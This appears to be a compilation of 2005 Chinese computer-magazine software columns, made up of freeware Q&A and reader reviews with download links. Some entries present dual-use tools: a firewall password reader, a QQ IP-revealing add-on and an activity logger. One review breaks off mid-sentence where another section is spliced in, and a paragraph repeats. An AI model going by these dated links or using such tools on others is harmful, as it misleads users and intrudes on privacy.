答：建议试试MangaMeeya，一款专为看漫画而设计的软件。要知道漫画的版面和一般的图片有很大不同，如果用ACDSee等看图软件浏览会很不习惯。该软件中有很多专为看漫画而设计的功能，比如放大镜、双页显示、翻页特效、书架及标签功能、快速移动等，另外还可以直接浏览RAR及ZIP压缩文件内的漫画，这样连解压缩的时间都可以省去了。MangaMeeya本是一款日文界面的软件，不过现在已经有高手将它汉化为繁体中文，在简体中文的系统中也可以使用。打开软件后，在左侧窗格选择浏览的漫画文件，在右侧窗格中浏览漫画。鼠标左键为向前翻页，鼠标右键为回翻。另外，如果目录下同时有多个压缩文件，当看完一个文件后，软件会自动切换至下个文件，保证了阅读的流畅性，非常的人性化。这些只是软件的一小部分特色功能，试过之后，你一定会对它爱不释手的。

软件版本：6.85
软件大小：1.66MB
软件性质：免费软件
适用平台：Windows 9x/2000/XP
下载地址：http://www.newhua.com/cfan/200522/MangaMeeya.rar

## 第二十三期

## 图片内容变图标:Xentient Thumbnails

问：我的电脑中保存了一大堆照片，每次找起来相当痛苦，除了你们以前介绍的资源管理器缩略图、右键菜单快速预览照片等技巧外，还有没有其他方法呢？比如干脆直接让图片文件的图标变成照片内容？
答：如果是仅仅是BMP图片，你可以打开“注册表编辑器”，找到[HKEY_CLASSES_ROOT\Paint.Picture\DefaultIcon]，将右侧窗格中“默认”键的键值修改为%1，这样BMP文件的图标就改成与文件内容相符的缩小图标了。如果是其他图片文件，可以试试Xentient Thumbnails，这款软件能帮你实现需求，它支持包括JPG、TIF、EMF、PCX、WMF等多种图片格式。安装好软件，并重启电脑。资源管理器中所有图片文件的图标就都变为图片内容了。这样你不用打开文件就可以通过图标所显示的图像来确认它的内容，使查找图片变得非常方便。如果需要调整软件的图标缓存，可以在“控制面板”中的“Xentient Thumbnails”中修改。

软件版本：1.02
软件大小：729KB
软件性质：免费软件
适用平台：Windows 9x/2000/XP
下载地址：http://xentient.com/setups/thumbs.exe

## 闪存盘也能自动运行:APO USB Autorun

问：我按照以前杂志介绍的方法，把一些常用工具放到了闪存盘上，制作完成后，我每次插入闪存盘后，希望让它自动运行其中的一款程序，请问是否可以实现呢？
答：要实现闪存盘自动运行的功能，需要借助一款名为APO USB Autorun的软件，它将为系统添加闪存盘自启动功能，原理与光盘自启动相同，软件会自动搜索闪存盘根目录的autorun.inf文件，并运行该文件所指定的程序。除此之外，软件具有快速访问闪存盘文件及文件夹的功能。运行软件，插入闪存盘，右击系统托盘内的软件图标，在弹出菜单中展开闪存盘分区盘符，就可以看到闪存盘中的文件及文件夹了。进入闪存盘根目录，用“记事本”新建名为autorun.inf的文件，在文件中输入如下面的内容。

```
[autorun]
open=start.exe
icon=start.ico
```

这里的文件名start可以根据情况修改为程序名，将该文件保存。这样只要在APO USB Autorun运行的情况下，一插入闪存盘自启动程序就会自动运行了。

软件版本: 1.0
软件大小: 299KB
软件性质: 免费软件
适用平台: Windows 9x/2000/XP
下载地址: http://www.archidune.com/downloads/apo/usb/setup.exe

## 免费的PDG浏览器:BooX Viewer

问:我从网上下载了一些PDG格式的电子书，请问用什么软件可以打开它们呢？
答:PDG是超星电子书的文件格式，因为超星数字图书馆藏书量非常大，所以这种文件格式也很流行，但官方阅读器不仅需要安装，而且体积较大，所以推荐你使用名为BooX Viewer的免费绿色软件。

软件版本: 1.0
软件大小: 587KB
软件性质: 免费软件
适用平台: Windows 9x/2000/XP
下载地址: http://www.newhua.com/cfan/200523/bxviewer.rar

## 穿透内网功能强的P2P网络电视:ViviPlay

问:看过2005年第19期的《以BT的名义看电视——主流P2P网络电视使用手记》后，我开始喜欢上网络电视了，但奇怪的是，我在单位的内网中却看不了，即使是你们强力推荐的PPLive，请问有没有穿透内网能力强的网络电视呢？
答:你可以试试ViviPlay，该软件内网穿透能力很强，而且根本不必进行任何设置就能轻松在内网观看网络电视节目，与其他软件不同的是，它还具有显示正在播放影片图片快照的功能。打开软件，在主界面右侧为电视当前播放影片的预览图及频道列表，双击要看的频道，等一会影片或节目就开始播放了。当软件无法运行，或是频道列表无法显示时，可以使用软件使用后自动生成的Update.exe进行升级。

软件版本: 1.0
软件大小: 283KB
软件性质: 免费软件
适用平台: Windows 9x/2000/XP
下载地址: http://www.newhua.com/cfan/200523/VIVIPlay.rar

## 快速找到需要的窗口:SWITCH WINDOW

问:工作的时候经常要打开很多文档窗口，这样任务栏上的窗口按钮会非常拥挤，常常因为看不到窗口按钮上标题文字，要打开想要的窗口都很麻烦，有什么软件可以帮我解决呢？
答:你可以试试SWITCH WINDOW。安装软件并重启电脑后，当再遇到了打开大量程序窗口时，只要在桌面任意处右击，在弹出菜单中选择“Switch windows->”项，就能看到当前打开的每个窗口标题栏的全部内容，选择列表中要打开的窗口即可快速切换到它。

软件版本: 1.0.1
软件大小: 730KB
软件性质: 免费软件
适用平台: Windows 9x/2000/XP
下载地址: http://www.desktopboosters.com/download/common/SwitchWindowSetup.exe



## 第十二期

## 新软试用

上海读者赵雷: 现在网上已经出现了System Safety Monitor(使用方法可参考2005年第6期《给Windows装个强力监视器》)的汉化版本。这款软件不同于传统防火墙，它能对系统进行全方位监测。需要注意这里的版本只能用到2005年12月，如果软件过期，请到http://maxcomputing.narod.ru下载最新的汉化版。
下载地址: http://www.newhua.com/cfan/200512/ssm.exe

## 试用体验

北京读者GM: 前几天在浏览论坛时，发现了豪杰解霸9.0的显示播放总时间及去掉自动伺服器随解霸启动的补丁。效果非常不错，这样不仅在播放时就可以显示影片总时间，而且烦人的自动伺服器也不会再启动了。另外，这里也要特别推荐给大家试用最新版的豪杰解霸9.0，在我试用过程中，它播放视频时的效果要比暴风影音更好一些，而且可以方便地调整影片亮度。
下载地址: http://www.newhua.com/cfan/200512/hero9.exe
北京读者GM: 这几天用了千千静听的4.4.7版，新版本可以直接将歌曲发送到MP3或其他设备，而且还支持向MSN Messenger 7.0发送正在播放的歌曲名。另外，在物理删除时还可自动删除关联的歌词文件功能也是新增的不错的功能之一。
下载地址: http://ttplayer.91.com/ttsetup.exe

## 最近更新

比特精灵 v2.8.0.065
升级指数: ★★★★
非常不错的BT下载软件。如果你经常下载超过2GB的大文件，一定要升级到此版本，这样就不会在“检查已下载的文件”时出现数据丢失的错误了。此外，新版本加快了本地化版本启动速度，增加磁盘缓存“自动检测”的功能; 针对最新SP2版本的Tcpip.sys改写连接数等。
下载地址: http://nj.onlinedown.net/soft/29902.htm
腾讯QQ2005Beta1珊瑚虫版 3.1.3
升级指数: ★★
QQ的外挂版本。新版本集成了TM2005 Beta1，修复登录时取消登录会导致崩溃的问题。另外，即将问世的4.0版将会有更多变化(如显隐身等)，说不定等杂志上市时，下面的下载地址已经可以下载到最新的4.0版。
下载地址: http://nj.onlinedown.net/soft/32845.htm
MyIE(GreenBrowser精简版) 4.01 Build 0517
升级指数: ★★★★
老牌的浏览器软件。现在大家常用的多窗口浏览器很多都是从MyIE发展出来的。现在GreenBrowser的作者重新开始升级MyIE，如果有喜欢的朋友可以下载试用。新版本除了与浏览关系不大的功能; 精简搜索栏及搜索菜单; 代码优化等。
下载地址: http://www.morequick.com/MyIEGB.zip
EVEREST Home 2.00.337 beta
升级指数: ★★
如果需要查找不知型号的硬件设备，那么推荐你使用这款软件。新版本增加了查看远程系统信息和管理，结果导出为HTML、XML的功能。
下载地址: http://nj.onlinedown.net/soft/29586.htm

## 第十三期

## 新软试用

山东读者飘良: 看了11期介绍的隐藏QQ皮肤后，我也在网上找到了一款比较有意思的QQ皮肤。它是专门为那些喜欢挂级的朋友制作的，使用后整个QQ只显示出一个图标，其他什么也没有。不仅节省资源占用，还非常有意思，有兴趣的朋友可以试试。
下载地址: http://www.newhua.com/cfan/200513/gqqzy.rar

## 试用体验

山东读者飘良: 可能是Google已经开始重视中国市场，最新的Google Desktop Search 1.0简体中文版新增了两个不错的新功能，分别是搜索QQ及MSN Messenger聊天记录的功能。对于经常用这两种工具与客户交流的读者，当寻找资料时，就不用像以前那样麻烦了！
下载地址: http://nj.onlinedown.net/soft/35700.htm
山东读者飘良: 最近我使用的网络防火墙软件ZoneAlarm升级到了最新的6.0 Beta版。新版本中最受人关注的就是“反间谍程序”检测及防护功能，与病毒、木马、垃圾邮件并称“四害”的间谍程序如今也被渐渐被各大安全厂商所重视，还是非常让人高兴的。不过这个“反间谍”功能居然把腾讯的TM当成间谍软件，在软件自动对系统进行间谍软件扫描后，建议仔细查看扫描结果，否则ZoneAlarm会将其删除。此外，新版本还整合了网络、操作系统、程序三种防火墙，增强了反病毒功能(隔离与暂停)，而新加的自动结束控制的功能主要用禁止执行恶意程序。
下载地址: http://www.zonelabs.com

## 最近更新

WinRAR 3.50 Beta5
升级指数: ★
老牌压缩软件。新版改进了对64位Windows的支持，并且增强了“修复”命令的功能，并进行了少部分的BUG修复。这些更新对于大多数来说根本没必要。
下载地址: http://www.winrar.com.cn/download.htm
紫光拼音输入法4.0 M1增强版 Build 2
升级指数: ★★
功能强大的拼音输入法。在推出4.0 M1增强版Build 1后，最新的Build 2又和大家见面了。其中更新输入法设置工具到2.5.9版; 去掉了“最优化设定”选项，方便用户配置; 默认不选中“动态调整字使用频率”选项，避免输入时崩溃; 优化了安装程序，卸载程序更加完善。
下载地址: http://nj.onlinedown.net/soft/39112.htm
UltraISO 7.6.0.1081
升级指数: ★★
制作光盘映像文件的工具。新版本对音频映像文件的处理有所加强。比如，可以直接从光盘或映像文件中提取MP3文件，这样可以很方便地从CD映像文件中提取出MP3文件; 可直接播放光盘音轨和音乐光盘映像中的WAV文件; 可读取音乐光盘BIN/CUE，NRG和PXL映像中的CD-TEXT信息。新版本还增加了更多新功能，如生成ISO映像的MD5文件等。
下载地址: http://nj.onlinedown.net/soft/614.htm

## 第十四期

## 新软试用

北京读者M&X:我平常使用EmEditor编写文本及程序，它为不同编程环境提供了不同配置设置方案，除软件本身提供的配置外，还可以在http://www.emeditor.com/userfiles.php下载到更多用户配置文件。下载后，在EmEditor中依次点击“设置→选择配置→自定义配置”菜单项，点击“新建→确定”按钮，输入配置文件名。回到设置界面，点击“属性”按钮，在弹出窗口中点击“高亮显示(1)”选项卡中的“输入”，选择刚刚下载的ESY配置文件，“确定”即可。

## 试用体验

上海读者张亮:虽然现在越来越多的人喜欢从网上下载电影来看，但也有不少人还在使用电脑看DVD，对于他们来说，WinDVD 7.0是一款不能错过的软件。新版本主界面应该是最直观的变化，再继续尝试，你会发现7.0版的WinDVD继承了老版本音、视频的特色，需要注意的是，这个版本在设置上进行了改变，需要在右键菜单中的“Video Center”及“Audio Center”分别进行音频及视频设置。其他还更新了如支持家庭网络媒体共享等功能。

下载地址:http://nj.onlinedown.net/soft/31399.htm

上海读者张亮:前段时间WinPatrol(优秀的系统即时监测软件，网络时代防黑、防恶意程序，保安全之必装工具)推出了9.5版，此版本最大的变化就是PLUS版具有了“实时警报”功能，而在以前版本中，WinPatrol每隔1分钟或更长时间才会监测一次注册表等监视项。新版本还能更好地恢复HOSTS及系统文件。

下载地址:http://nj.onlinedown.net/soft/18467.htm

## 最近更新

### BitComet 0.59 修正稳定版

升级指数:★★★★

对内网支持不错的BT下载软件。这个版本支持DHT网络无种子下载，同时还增加了搜索BT网站，取消“浏览”按钮下拉菜单、增加三种服务器模式选项等。

下载地址:http://www.onlinedown.net/soft/26431.htm

### IceSword 1.10

升级指数:★★★★

高手杀毒时的必备“利器”。新版本只进行了小修复，但从1.08版起IceSword增加了防止进程非法结束的功能。当使用IceSword.exe /c运行程序，需要关闭时，要先按下任意键，然后再按Ctrl + Alt + D才能关闭程序，否则无法退出。由于IceSword是安全软件，所以即使是小的升级也建议大家更新。

下载地址:http://www.newhua.com/cfan/200514/icesword110.rar

### 金山词霸 2006

新版本收录了《新日汉大辞典》、《实用汉日辞典》两本日文词典。同时，此版本还采用了全新的自动更新系统，实时扩充修补词库。大家可以从网上下载其免费试用版。

下载地址:http://push.cb.kingsoft.com/pr/cb2006/index.htm

## 第十五期

## 新软试用

北京读者刘良斌:前几天我在网上看到了用于备份MSN Messenger(以下简称MSN)表情、头像、背景等项的小软件，名叫MSN BackUp，这样以后重装系统时，就不会再去浪费时间下载了。软件使用时，需要先关闭MSN，然后在“MSN E-Mail Address”中输入MSN地址，再点击“Show Objects”按钮，就可以看到下载过的MSN项目，接着点击“Backup Objects”按钮，就可以备份了。恢复时，同样打开软件，在“Backup Folder”下设置备份的目录，然后点击“Install Objects”按钮，进行恢复。

软件版本:1.1.6
软件版本:3.15MB
软件性质:免费软件
下载地址:http://www.newhua.com/cfan/200515/msnbackup_116.exe

## 试用体验

北京读者刘良斌:我一直在使用天网防火墙，前段时间它发布了最新的2.75版。新版本增加了在线升级机制，让升级很简单。而最大的改进就是密码保护功能，用户可以对退出防火墙、应用程序访问网络设置等功能添加密码保护，这样未经授权的用户就无权修改防火墙的设置了。其他的更新内容就是BUG修复及最新的规则库。

## 最近更新

### 极点中文 4.4

升级指数:★★★

非常实用的五笔输入法。4.4版重新改写了系统设置程序，以方便普通用户。另外，这个版本对于经常使用简入繁出的用户特别重新定做了码表文件，大幅提高了准确性。

下载地址:http://nj.onlinedown.net/soft/24849.htm

### DreamMail 2005 beta 7.8

升级指数:★★

不错的邮件客户端软件。新版本进行了很多更新及修正，比如增加了邮件竖排查看的窗口布局;增加了选项“回复转发时，如果有ReFw等字样时，不再重复添加”;增加了选项“保存所有的邮件为eml文件”;增加了可以修改“邮件附件列表清单”内容的选项等。

下载地址:http://www.dreammail.org/gb/download.htm

### Windows 优化大师 6.7 Build 5.708

升级指数:★★★★

菜鸟修改系统的小工具。新版本进行了多方面的改进，比如改进了磁盘缓存优化、软件智能卸载、系统性能测试模块、驱动智能备份模块等。同时网络系统优化中的IE及其他模块中增加了IE插件管理子模块，其他设置选项的系统文件备份与恢复增加了收藏夹备份与恢复功能。

下载地址:http://nj.onlinedown.net/soft/3829.htm

## 第十六期

## 新软试用

四川读者孤独一枝:除了ZoneAlarm、天网等知名防火墙外，现在已经有越来越多的个人或公司开始开发防火墙软件，比如这里要为大家介绍的“小鬼当差”就是其中不错的一款。这款软件是由制作大名鼎鼎的灰鸽子远程控制软件而闻名的灰鸽子工作室制作的。

下载软件，解压缩后直接运行，启动防火墙程序。软件就会自动缩到系统托盘开始工作。在该图标上右击，选择“系统设置”命令可以配置防火墙。我们可以进行下面这些设置。拦截探测密码等操作:保护系统中所有密码框中的密码不被第三方软件探测取走。启用键盘钩子防火墙:现在很多木马，都有专门记录键盘操作的钩子插件，该选项可以在程序安装键盘钩子时弹出提示框，让用户选择是否允许继续安装(支持WH_KEYBOARD、WH_JOURNALRECORD类型键盘钩子的拦截)。启用应用程序防火墙:通过这个选项，当有应用程序要访问网络时都会弹出提示框，让用户选择是否让它连接网络。启用邮件发送防火墙:有程序发送邮件时就会弹出提示框，让用户选择是否允许继续发送。这样就可以很好地防范那些专门盗窃密码并发送到远程用户信箱的击键程序。如果你需要对某些应用程序永久通过或禁止通过，则可在“过滤规则”标签下进行设置。

## 试用体验

北京读者U.B.:我前几天用了最新的汉化版的HijackThis，该版本汉化的是1.99.1版，另外汉化作者在打包压缩软件时，还提供了KillBox(删除顽固文件)、CopyLock(删除顽固文件)、Winsock 2(浏览器劫持修复工具)及Xautorun(去除启动项)等多款实用的免费小工具。加上HijackThis本身提供的修改功能，对于初学者来说，这款软件还是非常实用的。如果你有不会用或是不理解的地方，可以参考软件目录下的帮助文件。

下载地址:http://www.newhua.com/cfan/200516/hijackthis.rar

## 最近更新

### Flash Player 8.0 Beta

升级指数:★★★★★

现在还有没有安装Flash Player的系统吗?那么Flash Player 8.0推出了，难道你不想抢先试用一下吗?全新的特效，全新的功能。安装好Flash Player 8.0后，只要打开http://news.onlinedown.net/info/14973-1.htm就可以看到升级后的各种变化了。

下载地址:http://www.macromedia.com/software/flashplayer/public_beta/installers/install_flash_player_8.msi

### MSN Messenger 7.5.0160 Beta 简体版

升级指数:★★★

微软推出的聊天软件。MSN Messenger 7.5使用了全新的登录界面，并且加入了类似“QQ呼叫机”的“语音剪辑”功能。

下载地址:http://www.onlinedown.net/soft/37982.htm

### 腾讯QQ/TM 珊瑚虫外挂 4.0 公测版

升级指数:★★★

在QQ中显示IP的外挂。新版本可以使用“如来神掌”更准确地得到对方IP;解决不能发送文件问题，修正登录失败问题。不过，小编在局域网中测试时，出现了无法登录或自动关闭等问题。希望在下一个版本中可以得到解决。

下载地址:http://www.skycn.com/soft/14183.html

## 第十七期

## 新软试用

上海读者马俊龙:我为大家推荐“比特铃手机DIY大师-铃音幻想曲”的2.0.0.3 Build 2005.08.09版。《电脑爱好者》已经详细介绍过“比特铃手机DIY”，但这次的2.0经过作者的重新设置，完全是一个新软件，并加上了向导模式，非常适合菜鸟使用。第一次打开软件，通过向导选择好机型，然后按提示选择要制作的铃声格式就可以了。之后打开主界面，点击“真人原唱”，按提示选择音频，就可以完成铃声制作。通过主界面上的“铃声管理”，你可以浏览到刚刚制作的铃声，使用“蓝牙/红外/数据线”按钮，可以将刚刚制作好的铃声保存到本地，不过在保存前你需要按提示先免费注册一个比特铃用户才可以。不过经过试用，我发现其实制作好的铃声都保存在了软件安装目录下Temp子目录中，你可以直接复制出来。

软件版本:1.0
软件大小:563KB
适用平台:Windows 9x/2000/XP
下载地址:http://www.newhua.com/cfan/200516/xgdc.rar

软件版本:2.0.0.3 Build 2005.08.09
软件大小:17789KB
适用平台:Windows 9x/2000/XP
下载地址:http://www2.skycn.com/soft/23691.html

上海读者马俊龙:我试用了一款名为“摄像头录像机”的软件，版本为1.02版，它号称可以使用ASF格式录制摄像头视频，可在我的试用中发现，它仅是把最后录制的文件改名为ASF，尺寸并没有变小，提醒大家不用再试用这款软件的1.02版了。

下载地址:http://www.skycn.com/soft/23627.html

## 试用体验

新疆读者KG:FlashGet推出了最新的1.7版，这次简体中文版完全免费是其最大变化，既没有广告，也没有功能上的限制了，不过它也仅能运行在简体中文操作系统上。本次更新除BUG修复外，就是改进了shareurl服务，可通过内置的一搜、新浪游戏等搜索引擎搜索MP3、游戏、网页。另外，网上有高手制作了FlashGet 1.7的美化版文件，大家可以从下面提供的链接下载到FlashGet 1.7安装文件及三个皮肤文件。
下载地址:http://www.newhua.com/cfan/200517/flashget17.rar

## 最近更新

### WinRAR 3.50
升级指数:★★★★★
非常流行的压缩/解压缩软件。新版本支持换肤(可从http://www.rarlab.com/themes.htm处下载)，支持多卷压缩CAB文件，更好地支持64位系统等。
下载地址:http://nj.onlinedown.net/soft/5.htm

### DiskLogon 2.4.0.0 32bit Edition 汉化版
升级指数:★★★★★
本刊2005年第8期《将你的闪存盘变为“密钥盘”》一文中介绍的将闪存盘改造为“密钥盘”。这个版本是其汉化版，有兴趣的朋友可以下载。
下载地址:http://nj.onlinedown.net/soft/41153.html
汉化地址:http://nj.onlinedown.net/soft/41152.html

## 第十八期

## 新软试用

陕西读者盒饭:前几天我买了一款彩屏MP3，说明书上写着支持MTV格式，但一直不知使用什么软件转换。在寻找了很长时间后，终于找到了解决的工具。工具名称为MTV Convert Tool。这个工具包含在MP3 Player Utilities这款软件中。使用时，需要安装好Windows Media Player 9.0和DirectX 9.0，如果要转换Real媒体需要安装RealPlayer。安装好MP3 Player Utilities，然后点击菜单中的“开始→程序→MP3 Player Utilities 3.13→MTV Convert Tool”，打开软件主界面。点击“选择要转换的影音文件路径”下的“…”，选择待转换文件的保存位置。点击“设置”按钮，打开“属性设置”窗口，一般长宽设置为96×96;如果是看MTV，则音频比特率建议设置为128kbps，如果是一般影片设置为64kbps;颜色空间一般选择RGB565，不然可能会出现变色的情况。最后，设置好生成的MTV文件路径，点击“开始转换”即可。

这款软件虽然不错，但也有些问题，比如转换后的文件体积较大，而且虽然支持Real格式，但经常出现编码错误的提示，建议多用WMV、ASF格式的视频转换。

软件版本:3.1.3
软件大小:8MB
适用平台:Windows 9x/2000/XP
下载地址:http://www.newhua.com/cfan/200518/mp3tools.rar

## 试用体验

湖南读者凉粉:新版超级兔子推出了，变化相当大。先是界面，之后就是全新的超级兔子工具条及上网精灵，新增的专业卸载功能等。除了这些外，最重要的就是现在超级兔子已经可以免费使用所有功能，而且不会修改IE主页，但未注册用户不提供售后服务及专家诊断服务。
下载地址:http://superrsoft.com/cn/download.htm

## 最近更新

### LumaQQ 2004T
升级指数:★★★★★
适用于Windows/Linux/FreeBSD/Mac/Solaris等多种系统的QQ。新版本主要是修正BUG，比如加好友时，直接关闭组选择窗口程序死掉的BUG等等。这款软件最大的特色就是登录速度快，功能多，同时可以用在包括Mac在内几乎所有系统平台上。总的来说，这还是一款非常不错的软件。
下载地址:http://lumaqq.linuxsir.org/main/?q=node/231

### 迅雷 5.0.0.72 beta
升级指数:★★★★★
非常不错的P2P下载软件。新版迅雷开始测试了，此版本使用了新的多资源超线程技术，显著提升下载速度，同时加强了任务管理功能。除此之外，还采用了智能磁盘缓存技术及智能信息提示，在保护硬盘的同时，还增加了人性化。不过由于是测试版，还会出现一些问题，比如无法使用“雷之源”，不要在安装迅雷5后再安装迅雷4等。喜欢尝鲜的朋友可以试试看。
下载地址:http://www.xunlei.com/

## 第十九期

## 新软试用

北京读者艾利:我平常喜欢在http://www.blogcn.com/发点“感慨”，前些天我用了博客中国推出的Rabo，它是一款功能非常强大的博客客户端软件。它不仅具有离线写日志、批量上传日志、分享日志等功能，还可以备份已经发表的任意日志，并在本地查看，必要时还可以恢复以前被删除的日志。
启动软件后，先输入用户名及密码，然后设置数据保存的位置，这时就会打开主窗口，稍候，打开软件界面。接下来就可以通过“日志”菜单下的项目对日志进行操作，比如“写日志”、“备份日志”等。可以说这款软件大大方便了Blog用户，非常不错。
软件版本:1.0
软件大小:19705KB
适用平台:Windows 2000/XP
下载地址:http://www.skycn.com/soft/23106.html

## 试用体验

广东读者李良:我是个摄像爱好者，经常使用Turbo Photo。现在最新的4.6版推出了。新版本最大的变化就是使用第二代的数字美容技术，同时基于此技术的手动美容功能，以及支持添加更为复杂的边框效果。在对人物皮肤处理时，通过右下角的“不满意? 尝试手动数字美容”按钮就可体验新功能。
下载地址:http://www.stepok.com/chs/index.htm

## 最近更新

### QQ/TM 珊瑚虫外挂 4.0 B4
升级指数:★★
让QQ显示IP的外挂程序。新版加强了“如来神掌”的功能，同时解决了部分局域网用户无法登录的问题。不过该版本同样没有公布“如来神掌”的使用方法。目前仅知道，“如来神掌”是通过自安装外挂后添加的好友“100000(珊瑚虫工作室)”发送特定指令，来实现的。
下载地址:http://nj.onlinedown.net/soft/41059.htm

让QQ显示IP的外挂程序。新版加强了“如来神掌”的功能，同时解决了部分局域网用户无法登录的问题。不过该版本同样没有公布“如来神掌”的使用方法。目前仅知道，“如来神掌”是通过自安装外挂后添加的好友“100000(珊瑚虫工作室)”发送特定指令，来实现的。

下载地址:http://nj.onlinedown.net/soft/41059.htm

### 千千静听4.5.3版正式版
升级指数:★★
可显示歌词的播放器。此版本并未新增功能，只是进行BUG修复。如果你的千千静听经常出现无法加载本地歌词或是无法自动嵌入歌词到音频，那么可以试试新版本。
下载地址:http://nj.onlinedown.net/soft/8350.htm

### Virtual Native Network 虚拟本地网 3.0.0901
升级指数:★★★★★
不管电脑是否拥有公网IP，都可将它们连接到同一局域网中的网络软件。新版本解决了密友过多无法登录的错误，同时修改了关联客户端组包错误，并增加了网络接入环境探测工具。目前此版本为3.0的最稳定版本，由于VNN开发组将把主要精力转移到HTTP支持及应用相关的项目开发中，要过段时间才会推出下一版本，因此，建议大家升级至此版本。
下载地址:http://nj.onlinedown.net/soft/1978.htm

### WinZip 10
升级指数:★★★★★
老牌压缩软件。虽然大部分人已经使用WinRAR，但对于WinZip的Fans们来说，WinZip 10的推出还是相当让人兴奋的。新版本分为标准版及专业版，并使用了全新的界面，改进了压缩代码，加大了压缩率，同时，专业版还支持刻录CD功能。WinZip的Fans们不要错过。
下载地址:http://nj.onlinedown.net/soft/42075.htm

## 第二十期

## 新软试用

西安读者LZ:前几天我在卸载金山网镖时，出现了需要密码的提示，于是上网搜索，终于找到了一款名为“金山网镖密码读取工具”的软件。这款软件可以读取金山网镖6及网镖2005的密码。使用非常简单，打开软件后，只要点击“读取密码”按钮即可。
下载地址:http://www.newhua.com/cfan/200520/jspass_20.rar

西安读者LZ:我在网上找到了一款可以记录电脑活动的小软件，名为ActRecorder。运行后，可以在系统托盘找到软件图标，每隔一段时间就会刻录当前打开的所有窗口的标题，然后记录在软件所在文件夹下的“AR_日期.xls”文件中，用Excel就可以打开观看了。如想暂时停用此功能，可以点击系统托盘的图标即可，恢复时，只要右击后，去除“Script Paused”的勾选即可。
下载地址:http://www.newhua.com/cfan/200520/ActRecorder.rar

新疆读者李飞:这里我为大家推荐一款很好玩的“最小化”工具，这款名为miniMIZE的软件可以将程序窗口最小化至桌面，你可以很方便地看到窗口中的内容，以便选取，有兴趣的朋友可以下载试用。
下载地址:http://www.newhua.com/cfan/200520/miniMIZE.exe

## 试用体验

北京读者李政:新版本的BitComet还不...## 最近更新

- Picasa 2.1.0版
  升级指数：★★★★
  Google提供的照片搜索工具，能够在几秒钟内搜索到电脑中的照片，还提供了简单的修改功能，界面也非常漂亮，推荐大家使用。
  下载地址: http://picasa.google.com/

- QQ2005 Beta 3 狂人DIY版/组件包Ver20050922
  升级指数：★★★★
  可以自由选择安装内容的非官方QQ版本。此版本集成QQ最新版本，珊瑚虫外挂升级为4.0体验版，可在线安装QQ宠物资源包及TM2005狂人DIY版。
  下载地址: http://www.gochina.cn/download/QQ2005.exe

## 新软试用

- 陕西读者马文：灰鸽子病毒是一款非常特别的木马软件，中了此木马后，很难清除干净。不过，现在网上已经出现了专杀工具，直接进行查杀即可。
  下载地址: http://www.onlinedown.net/soft/43101.htm

## 试用体验

- 北京读者李政：前段时间千千静听推出了4.6.0 Final版，新版本解决了我以前经常出现的声音断断续续，CPU占用过高的问题，其他多是BUG的修正。
  下载地址: http://ttplayer.com/ttpsetup.exe

- 北京读者李政：雪狐桌面精灵是我一直在使用的软件，前段时间它推出了最新的2.0版。与老版本相比，新版更加漂亮，添加了很多特效，比如淡入淡出效果，桌面快捷方式的修改皮肤等功能，还新增了4款新皮肤等。其他更新主要就是BUG的修复了。
  下载地址: http://www.snowfoxstd.com/Html/Chs/Soft_CalSprite.htm

- 北京读者李政：新版的Maxthon推出了，此次更新为1.5版，最大的变化就是当Maxthon被设置为默认浏览器时，完全截获各种软件对IE的调用，这样，不用再修改注册表，就可以用Maxthon直接打开MSN Messenger中的网址链接了。
  下载地址: http://cn.maxthon.com/chs/download.htm

## 最近更新

- 金山词霸2006 SP1
  升级指数：★★★★★
  非常不错的翻译软件。新版本改进了屏幕取词功能，兼容DEP环境的屏幕取词，同时修正英文词组取词问题，并且对《美国传统词典》进行了更新，补充了《现代英汉词典》。
  下载地址: ftp://61.152.111.51/cibapatch1/Powerword%20202006%20SP1.exe

- MSN群2.0 beta1
  升级指数：★★★
  一款可以在MSN Messenger中建群的软件。MSN群新增了“阻止群消息提示”和“群助理”两大功能。不过这款软件的也有一个很大的问题——所有使用群的用户，必须要全部安装这款软件，真希望MSN SHELL或MSN Messenger Plus能集成此功能，这样使用起来应该会更方便，毕竟很多人安装了这两款软件。
  下载地址: http://www.onlinedown.net/soft/41646.htm

- DreamMail 2005 Beta 9.3
  升级指数：★★★
  可与Foxmail相媲美的邮件客户端软件。至截稿时，DreamMail在疯狂的更新，这里介绍的9.3版，主是进行BUG修复，所以大家还是再多等一段时间后，再进行更新吧。
  下载地址: http://www.onlinedown.net/soft/41646.htm

- System Mechanic 6.0
  升级指数：★★★★
  功能强大的系统优化软件。新版本改良了间谍软件防护功能，添加了数据恢复，启动优化，硬盘修复，系统全面检查工具，高级进程管理等多项新功能，值得升级。
  Standard版下载地址: http://download.sjc.iolo.net/sm/6/trial/SystemMechanic6.exe
  Pro版下载地址: http://download.sjc.iolo.net/sm/6pro/trial/SystemMechanic6Pro.exe

## 试用体验

- 上海读者LJ：我前几天试用了WinImage 8.0版，这个版本主要有三个更新，一是可以读取和改写微软的VPC虚拟机所创建的虚拟硬盘映像文件，这样可以直接读取虚拟机中的文件了;二是支持NTFS和Linux EXT2FS/EXT3FS映像的读取;最后，新版本还可以连接到Linux分区上，用来查看所连接硬盘中的Linux分区的内容。
  下载地址: http://nj.onlinedown.net/soft/3539.htm

## 最近更新

- QQ2005 正式版
  升级指数：★★★★
  QQ2005正式版终于推出了。与QQ2005 Beta 3相比，正式版并未新增功能，但在稳定性等方面进行了修正，推荐升级。
  下载地址: http://im.qq.com/qq/dlqq.shtml

- QQ直播QQLive 2.0 Beta 1
  升级指数：★★★★
  QQ推出的P2P网络电视。新版本增加了数个频道，已经有十一台的电视频道，十三个频率的各地广播电台及四个频率的纯网络电台节目。喜欢看网络电视的朋友一定要升级。软件使用方法可以参考本刊2005年第19期《以BT的名义看电视——主流P2P网络电视使用手记》一文。
  下载地址: http://dl.pconline.com.cn/html/1/4/dlid=14024&dltypeid=1&pn=0&.html

- Net Transport 2.00.302
  升级指数：★★★★
  与FlashGet媲美的下载软件。新版本支持4GB以上大小的文件下载，去掉进度窗口，在线程窗口中添加“即时速度”，支持一个目标使用多个链接下载等很实用的功能，不过此版本也捆绑了百度工具条，使用时要注意。
  下载地址: http://www.skycn.com/soft/9541.html

- WinRAR 3.51 官方简体中文版
  升级指数：★★
  最常用的压缩软件，新版本修正两处漏洞，同时修正了以前版本不能删除某些临时文件的问题，另外还修复了当命令行参数中的压缩包文件名称长于1024个字符时，导致WinRAR崩溃的问题。
  下载地址: http://www.rarlab.com/rar/wrar351sc.exe

- Opera 9.0 Preview 1 build 8031
  升级指数：★★★★★
  经典的非IE内核浏览器。新版本打开网页速度超快，甚至超过了Maxthon及Firefox，仅这点就足以让你升级。另外，还增强了弹出窗口监测/屏蔽功能，加入个人配置功能等。
